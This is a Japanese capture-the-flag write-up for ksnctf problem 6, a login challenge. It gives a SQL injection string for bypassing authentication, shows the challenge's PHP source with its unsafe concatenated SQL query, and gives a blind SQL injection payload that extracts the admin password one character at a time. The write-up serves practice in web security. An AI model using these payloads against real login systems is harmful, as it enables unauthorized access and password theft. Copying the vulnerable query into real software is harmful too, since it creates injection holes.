

## 問題6 
### 参考サイト
- [問題](https://ksnctf.sweetduet.info/problem/6)
- [解説](https://linuxnosusume.blogspot.com/2017/12/ksnctf-6-login.html)
- [urllib3](https://note.com/tomtom_0301/n/n980969ea4756)
- [SQL注入](https://www.ipa.go.jp/security/awareness/vendor/programmingv2/contents/502.html)

### 解法

1. 以下をID欄に入力  
`' OR 1=1 --`  
これには以下の意味があり、この文字列をパラメータとして与えられた場合は、ユーザIDが常に返ってくる  
```
'       ： ひとつ前の「'」と対となり、文字列定数を終わらせる  
OR 1=1  ： uidの値に関係なく、検索条件を、真とさせる
--      ： それ以降の内容をコメントとして無視させる
```

結果として以下のページが返ってくる
```
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_SILENT);
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

上を開いてみた  



2. 以下をID欄に入力  
`admin'  AND SUBSTR((SELECT pass FROM user WHERE id='admin'),1,1) = 'F'--`  

3. この[コード](../codes/p6.py)を実行  
### メモ
**ブラインドSQLインジェクション**  
挿入したSQLに対する応答ページの違いから、データベース管理システムに関する情報（実行ユーザーやテーブル名など）を盗み出す
